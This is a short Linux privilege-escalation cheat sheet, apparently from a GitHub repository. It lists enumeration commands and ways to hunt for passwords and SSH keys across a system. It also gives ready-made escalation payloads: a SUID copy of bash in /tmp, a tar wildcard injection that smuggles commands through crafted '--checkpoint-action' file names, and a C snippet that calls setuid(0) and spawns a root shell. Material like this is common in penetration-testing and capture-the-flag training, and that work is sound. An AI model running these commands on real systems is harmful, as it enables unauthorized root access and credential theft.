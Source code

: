 # Linux Privesc Cheat-Sheet

## System Enumeration

Kernel info - uname -a 

Proccesses,services - ps aux, ps aux | grep root

Suid - find / -perm -u=s -type f 2>/dev/null, find / -type f -perm -04000 -ls 2>/dev/null find / -perm -4000 2>/dev/null

trace - strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"

Capabilities - getcap -r / 2>/dev/

NFS - cat /etc/exports

Architechture and cpu info - lscpu

## User Enumeration

Info about user - whoami, id

What can we run as sudo - sudo -l

Users - cat /etc/passwd, cat /etc/passwd | cut -d : -f 1

## Network Enumeration

IP info - ifconfig,

Routing info - ip route

Connections - netstat

## Password Hunting

Password phrases - grep --color=auto -rnw '/' -ie "Password=" --color=always 2> /dev/null

Password files - locate password

Finding ssh keys - find / -name id_rsa 2> /dev/null

## Useful commands

echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p" > file

cron wildcards

```

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh

touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh\ runme.sh

/tmp/bash -p

```

echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c


## Automated Tools

1.Linpeas

2.LinEnum

3.Linux exploit suggester

4.Linux privchecker
